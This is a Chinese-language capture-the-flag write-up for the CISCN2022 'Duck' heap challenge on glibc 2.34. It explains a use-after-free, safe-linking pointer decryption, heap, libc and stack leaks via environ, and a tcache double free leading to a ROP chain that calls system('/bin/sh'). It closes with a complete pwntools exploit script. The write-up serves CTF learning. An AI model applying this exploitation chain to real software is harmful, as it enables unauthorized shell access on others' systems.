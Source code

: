 ### CISCN2022 Duck Write Up

该题目附件我已经上传到Github，有需要的可以下载，复现这题时，我是使用的NSSCTF提供的远程环境。

此题是一道libc2.34的题，libc2.34与2.33最大的不同就是移除了以往常用的malloc_hook，free_hook等hook函数，导致利用上较为困难，2.34与2.33一样，chunk的fd指针都采用了异或加密，在申请chunk时便会异或解密，所以当我们改写fd指针时，只需要将泄露出的堆的基地址右移12位后与当前地址异或即可。glibc中采用的异或加密的规则并不难：将堆的基地址右移12位后与当前地址异或。

这道题逆向难度并不大，通过IDA静态分析就可以很明显的看出，在free时存在UAF，所以可以很轻松的泄露堆的基地址（用于异或加密）与libc。

先多申请几个chunk（大于8个），把最后一个留下其余的全部释放，并用0号来泄露堆的基址，将泄露的地址左移12位即可得到堆的基地址。由于chunk的大小为0x110，所以在填满tcache后，剩下的不与top chunk相邻的chunk将放入unsorted bin中，这也是前面要申请大于8个chunk的原因，然后再通过UAF泄露main arena的地址，从而泄露libc。

泄露libc之后找到environ，通过UAF改写tcache的bk指针并再次释放tcache造成tcache double free，并将其fd指针改为environ的地址，并分配出去，由于environ保存的是当前进程的环境变量，这里面存放了栈上的地址，泄露出environ的值后并计算出edit的地址之后，再次Double Free分配到edit返回地址之后写入ROP调用链，(**注意，由于是64位的程序，前六个参数通过寄存器传递，所以需要控制RDI寄存器来传入"/bin/sh\x00"作为system的参数**)即可getshell。(我用one_gadget去打没有成功)

***注：此处system若是无法使用，可改为execve，效果应该是一样的***

最终exp如下：

```python
from pwn import *
io=process('./pwn')
#io=remote('1.14.71.254',28045)
elf=ELF('./pwn')
libc=ELF('./libc.so.6')

context(arch='amd64', os='linux', log_level='debug')

def add():
    io.recvuntil('Choice: ')
    io.sendline('1')

def delete(index):
    io.recvuntil('Choice: ')
    io.sendline('2')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def show(index):
    io.recvuntil('Choice: ')
    io.sendline('3')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def edit(index,size,content):
    io.recvuntil('Choice: ')
    io.sendline('4')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))
    io.recvuntil('Size: \n')
    io.sendline(str(size))
    io.recvuntil('Content: \n')
    io.sendline(content)


for i in range(9):
    add()

for i in range(8):
    delete(i)  

show(7)

main_arena = u64(io.recvuntil(6).ljust(8, b'\x00'))
main_arena = main_arena - 96

libc_addr= main_arena-libc.sym['main_arena']

print("libc_addr: " + hex(libc_addr))
print("main_arena: " + hex(main_arena))



show(0)
heap_base=u64(io.recv(5).ljust(8,b'\x00'))
heap_base=heap_base<<12
print("heap_base: "+hex(heap_base))

for i in range(5):
    add()

environ_addr=libc_addr+libc.sym['environ']

print("environ_addr: " + hex(environ_addr))

edit(1,0x10,p64(environ_addr^(heap_base>>12))+p64(0))

add()         
add()         

show(15)
stack_addr = u64(io.recvuntil(6).ljust(8, b'\x00'))
stack_addr = stack_addr - 0x168

print("stack_addr: "+ hex(stack_addr))

delete(9)
delete(10)
edit(10,0x10,p64(stack_addr^(heap_base>>12))+p64(0))

add()  
add()  

bin_sh_addr=libc_addr+next(libc.search(b'/bin/sh'))

sys_addr = libc_addr + libc.sym['system']
pop_rdi_ret = libc_addr + next(libc.search(asm('pop rdi;ret;')))

#pop_rdi_ret=0x1703

#one_gadget=libc_addr+0xda867

payload=p64(0)*3+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)

#payload=p64(0)*3+p64(one_gadget)

edit(17,0x30,payload)

io.interactive()
```

